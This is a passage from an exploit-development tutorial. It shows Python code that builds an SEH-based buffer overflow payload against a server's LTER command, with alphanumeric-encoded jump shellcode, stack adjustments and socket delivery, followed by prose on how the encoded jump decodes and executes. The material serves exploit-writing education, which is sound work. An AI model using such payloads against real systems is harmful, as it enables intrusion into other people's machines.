 ```python
jump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
jump += "\x05\x76\x40\x50\x50" ## add  eax, 0x50504076
jump += "\x05\x75\x40\x40\x40" ## add  eax, 0x40404075
jump += "\x50" 

espAdj2 = '\x54\x58\x2c\x2a\x50\x5c'

longJump = "\x54\x5b"
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x11\x11\x77\x62" ## add  eax, 0x62771111
longJump += "\x05\x11\x11\x66\x62" ## add  eax, 0x62661111
longJump += "\x05\x11\x11\x55\x42" ## add  eax, 0x42551111
longJump += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
longJump += "\x50"                 ## push eax
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x41\x76\x65\x07" ## add  eax, 0x07657641
longJump += "\x05\x40\x75\x54\x06" ## add  eax, 0x06547540
longJump += "\x50"


buffer = 'A' * 3427
buffer += espAdj2
buffer += longJump
buffer += 'A' * (3514 - 3427 - len(espAdj2) - len(longJump))
buffer += nSeh
buffer += Seh
buffer += espAdj
buffer += jump
buffer += 'D' * (4000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

Once we send this, we should see our encoded long jump payload get decoded and then execution eventually reach our decoded payload on the stack and take it and jump all the way back to the beginning of our `A` buffer. Let's do another before and after. 

**BEFORE**
